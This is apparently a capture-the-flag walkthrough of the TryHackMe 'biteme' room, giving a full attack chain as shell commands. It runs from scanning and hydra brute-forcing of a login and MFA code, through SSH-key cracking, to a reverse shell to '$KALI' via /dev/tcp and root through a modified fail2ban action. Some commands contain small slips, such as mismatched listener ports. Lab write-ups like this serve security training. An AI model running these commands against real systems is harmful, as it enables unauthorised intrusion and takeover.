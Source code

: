 # biteme

**Room Link:** [https://tryhackme.com/room/biteme](https://tryhackme.com/room/biteme)

## Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (748).png" alt=""><figcaption></figcaption></figure>

## Scan all ports

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (749).png" alt=""><figcaption></figcaption></figure>

## TCP/80 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```



<figure><img src="../../.gitbook/assets/image (753).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (752).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (750).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (751).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
gobuster dir -u http://$VICTIM/console -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x phps
```

<figure><img src="../../.gitbook/assets/image (754).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (757).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (755).png" alt=""><figcaption></figcaption></figure>

## **Finding username**

**Kali**

```
echo 6a61736f6e5f746573745f6163636f756e74 | xxd -r -p
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Recreating login

I merged configs.phps,  functions.php and index.phps into a index.php file. Made some modifications so that it could run  when hosted locally without the mfa part of the code so then I can try to bruteforce the credentials.

**index.php**

```
 <?php
session_start();
$showError = false;
define('LOGIN_USER', '6a61736f6e5f746573745f6163636f756e74'); 

function is_valid_user($user) {
    $user = bin2hex($user);
    return $user === LOGIN_USER;
}
// @fred let's talk about ways to make this more secure but still flexible
function is_valid_pwd($pwd) {
    $hash = md5($pwd);
    return substr($hash, -3) === '001';
} 


if (isset($_POST['user']) && isset($_POST['pwd'])) {
        if (is_valid_user($_POST['user']) && is_valid_pwd($_POST['pwd'])) {
            setcookie('user', $_POST['user'], 0, '/');
            setcookie('pwd', $_POST['pwd'], 0, '/');
            header('Location: mfa.php');
            exit();
        } else {
            $showError = true;
        }
  }  
?>

<!doctype html>
<html lang="en">
 <body class="text-center">
    <form action="index.php" method="post" class="form-signin" >
        <h1 class="h3 mb-3 font-weight-normal">Please sign in</h1>
        <input type="text" name="user" class="form-control" placeholder="Username" required>
        <input type="password" name="pwd" class="form-control" placeholder="Password" required>
        <button class="btn btn-lg btn-primary btn-block" type="submit">Sign in</button>
        <?php if ($showError): ?><p class="mt-3 mb-3 text-danger">Incorrect details</p><?php endif ?>
    </form>
  </body>
</html>

```

**Kali**

```
echo MFA > mfa.php
php -S 127.0.0.1:81
```

<figure><img src="../../.gitbook/assets/image (20) (1).png" alt=""><figcaption></figcaption></figure>

## Bruteforce

**Kali**

```
hydra -l jason_test_account -P /usr/share/wordlists/rockyou.txt 127.0.0.1 -s 81 http-post-form "/index.php:user=^USER^&pwd=^PASS^:F=Incorrect details"
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



**Browser**

```
Username: jason_test_account
Password: violet
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
python -c "with open('output.txt', 'w') as file: [file.write(f'{str(i).zfill(4)}\n') for i in range(10000)]"
```

**Kali**

```
git clone https://github.com/vanhauser-thc/thc-hydra.git
cd thc-hydra/
./configure
make
make install
cd ..

thc-hydra/hydra -l jason_test_account -P output.txt $VICTIM http-post-form "/console/mfa.php:code=^PASS^:H=Cookie: PHPSESSID=hshqcs3n42r9qjs5b2850r9alt; user=jason_test_account; pwd=violet:F=Incorrect code" -T 64
```



<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (758).png" alt=""><figcaption></figcaption></figure>

## LFI

<figure><img src="../../.gitbook/assets/image (759).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
chmod 600
/opt/john/ssh2john.py id_rsa > id_john.txt
john --wordlist=/usr/share/wordlists/rockyou.txt id_john.txt 
```

<figure><img src="../../.gitbook/assets/image (760).png" alt=""><figcaption></figcaption></figure>

## TCP/22 - SSH

**Kali**

```
ssh -i id_rsa jason@$VICTIM 
Password: 1a2b3c4d
```

<figure><img src="../../.gitbook/assets/image (761).png" alt=""><figcaption></figcaption></figure>



## Lateral Movement

**Victim**

```
sudo -l
```

<figure><img src="../../.gitbook/assets/image (762).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
echo '#!/bin/bash' > shell.sh
echo 'sh -i >& /dev/tcp/$KALI/1337 0>&1' >> shell.sh
```

**Kali**

```
nc -lvnp 1338
```

**Victim**

```
sudo -u fred ./shell.sh
```

<figure><img src="../../.gitbook/assets/image (763).png" alt=""><figcaption></figcaption></figure>

Get autocomplete

```
python -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```

## Privilege Escalation&#x20;

**Victim**

```
sudo -l
```

<figure><img src="../../.gitbook/assets/image (764).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
cat /etc/fail2ban/jail.conf
```

<figure><img src="../../.gitbook/assets/image (768).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
ls -la /etc/fail2ban/action.d/iptables-multiport.conf
vi /etc/fail2ban/action.d/iptables-multiport.conf
```

<figure><img src="../../.gitbook/assets/image (765).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (770).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
sudo /bin/systemctl restart fail2ban
```

Now we need to enter bad passwords until we've triggerd the ban action

**Kali**

```
ssh root@$VICTIM
```

<figure><img src="../../.gitbook/assets/image (769).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
/bin/bash -p
whoami
```

<figure><img src="../../.gitbook/assets/image (771).png" alt=""><figcaption></figcaption></figure>

